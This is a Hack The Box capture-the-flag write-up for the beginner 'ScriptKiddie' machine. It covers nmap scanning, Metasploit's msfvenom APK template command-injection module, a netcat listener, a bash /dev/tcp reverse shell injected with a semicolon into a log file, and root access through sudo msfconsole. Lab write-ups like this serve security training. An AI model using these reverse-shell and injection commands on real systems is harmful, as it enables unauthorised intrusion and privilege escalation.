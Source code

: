 # ScriptKiddie
![banner](src/banner.png)

|Topics               |Details              |
|:--------------------|:--------------------|
| Creator             | [0xdf](https://app.hackthebox.eu/profile/4935)|
| Enumeration         | Slightly required   |
| Scripting           | Not required        |
| Custom Exploitation | Not required        |
| Real Life           | Nope                |

## My thoughts on the box
This box is obviously for beginners; simple steps, you don't need to have advanced skills. I enjoyed solving it, thanks to 0xdf.

BTW (Not Arch XD) this is my first writeup I hope it helps you. 
Constructive feedback is appreciated.

[My Hack The Box profile](https://app.hackthebox.eu/profile/184235)
<br>
<a href=https://www.buymeacoffee.com/f4T1H>
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" width="221" height="40" alt="Support">
  </img>
</a>

## Reconnaissance
I started with nmap: ``nmap -sS -sC -sV 10.10.10.226``

![nmap](src/nmap.png)

As you can see here we have two ports open. We can't hack it from it's ssh in this case, let's go with port 5000 which runs an http server through python.

We see a site that runs `nmap` and `msfvenom`, let's check if it is running properly.

![site](src/site.png)

It is working well in nmap. I also noticed something interesting in the site, a "`template file`" was required to generate reverse tcp `payloads`.

Googling it up gives us more interesting things XD

![site](src/search.png)

https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

## Exploiting and getting a shell
So we have an msf module that creates a malicious apk file, which will be using in tcp/5000's msfvenom payload generator and expected to give us a reverse shell. Worth to try..

Let's first create our fellow template by using these commands:
```
msfconsole
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost tun0 #Your VPN ip address
set lport 2121
run
```
![msfapk](src/msfapk.png)

We got a malicious template file, we just need to move it to our working directory and set a netcat listener.
```bash
mv /root/.msf4/local/msf.apk .
nc -lvnp 2121
```
![nc](src/nc.png)

Last but not least, go to http://10.10.10.226:5000 and generate a payload using our malicious template file as shown below.

![payloadapkset](src/payloadapkset.png)

**Boom, we got a reverse shell as the user kid!!** (Don't forget to get your user flag XD)

![payloadapkset](src/gotusershell.png)


## Privelege escalation to pwn user
After a really basic enumeration, I noticed an interesting executable in /home/pwn

![payloadapkset](src/nmapaspwn.png)

As I understand so far from the code, what we put inside ``/home/kid/logs/hackers`` is executed as pwn user. Now we're going to put a reverse shell in it and get a shell as **pwn** user.

Let's first set a nc listener on another port:
```
nc -lvnp 4040
```

Now we can put a reverse shell syntax inside the `hackers` file. But here the thing is: I was not able to just get a reverse shell using just ``bash tcp`` reverse shell, so I customized the syntax a bit.

Don't forget to change the ip address.

```bash
echo "  ;bash -c '0<&196;exec 196<>/dev/tcp/YOURIPHERE/2121; sh <&196 >&196 2>&196' # " > /home/kide/logs/hackers
```

![gotshellaspwn](src/gotshellaspwn.png)

**BOOM, we got another reverse shell as pwn user!!**

## Privilege escalation to root
Before doing any enumeration, let's check fi we can use ``sudo -l`` passwordless.

![sudo-l](src/sudo-l.png)

This is so funny :P Just run msfconsole with sudo privileges to become root XD
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
/bin/bash
```
![root](src/root.png)

***And we sucessfully pwned the machine..***

![pwned](/src/gifs/pwned.gif)

## Closing
[Click](https://app.hackthebox.eu/profile/184235) to give me respect on Hack The Box.

Thanks for reading, see you on another .md file ..
<br>
<a href=https://www.buymeacoffee.com/f4T1H>
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" width="221" height="40" alt="Support">
  </img>
</a>

Resources:
```
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/
```

***Written by f4T1H***
